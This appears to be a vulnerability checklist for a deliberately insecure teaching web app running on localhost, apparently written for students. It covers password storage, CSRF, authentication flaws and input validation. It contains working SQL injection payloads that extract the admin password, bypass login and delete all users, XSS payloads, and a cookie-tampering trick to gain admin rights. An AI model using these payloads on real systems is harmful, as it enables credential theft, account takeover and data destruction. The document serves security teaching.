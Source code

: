 #Vulnerabilities in the webapp
##Secure password storage


- The password is not salted to prevent parallell attack and precomputated/rainbow tables.
- The password is not hashed iteratively with bcrypt/scrypt/PBKDF2.
- Need better password policy. Short passwords must be disallowed.
- Password leak in HTML comment on show user page
	- `http://localhost:8080/user/<username>`
- Password input field should be type=password.


##SQL injections


- Show user 
	`http://localhost:8080/user/-1%27%20union%20all%20select%201,pass,3,4,5,6,%207%20from%20users%20where%20user=%27admin%27--%20-`
- Bypass login form http://localhost:8080/login</p>
	`curl -v localhost:8080/login --data "pass=pwned&amp;user=foobar' UNION ALL SELECT -1,-1,'5e93de3efa544e85dcd6311732d28f95',-1,-1,-1,-1-- -"`
- Admin user delete. Drop all users with
		`http://localhost:8080/admin/delete/foobar' or 1=1-- -`
- Adding a movie review.
- Edit user form.


##XSS

- Reflected on, show user 
	`http://localhost:8080/user/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`
(latest chromium's XSS auditor actually blocks this)
- Reflected on logout message
	- `http://localhost:8080/?msg=aa%3Cscript%3Ealert%287%29%3C/script%3E`
- Reflected on create user form on username field.
- Persistent on show user. Email, bio and age. `http://localhost:8080/user/<username>`
- Reflected on admin delete user page `http://localhost:8080/admin/delete/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`


##CSRF

- Login form
- Edit user form
- Logout link `http://localhost.no:8080/logout`
- Create user form
- Delete user `http://localhost:8080/admin/delete/bob`
- Add movie review `http://localhost:8080/movies/8`

##Authentication mechanisms

- Session id in cookie is not regenerated after login to prevent session fixation
- Timing attack on the hash comparison because equals operator is used.
- Cookie tampering allows normal users to become admin. On http://localhost:8080/admin with
	- `document.cookie='isadmin=yes'`;
- Missing access control on the actual delete on `http://localhost:8080/admin/delete/<username>`


##Data validation

- Username can be arbitrarily long.
	- `a=$(php -r 'print str_repeat("A", 1000);')
	curl 'http://localhost:8080/user/new' --data "user=$a&amp;pass=&amp;submit=Create+new+user"`


#General other stuff

- The webapp should be served entirely over TLS. All requests towards HTTP should redirect to HTTPS. HSTS and secure cookie flag should be on. This requires additional hassle with configuration so students do not have to actually configure TLS. But it should be mentioned.
- Missing throttling and IP bans on excessive requests towards forms.
- The Slim debug variable should be set to false to minimize leakage of useful info, (e.g. system paths and technology stack).
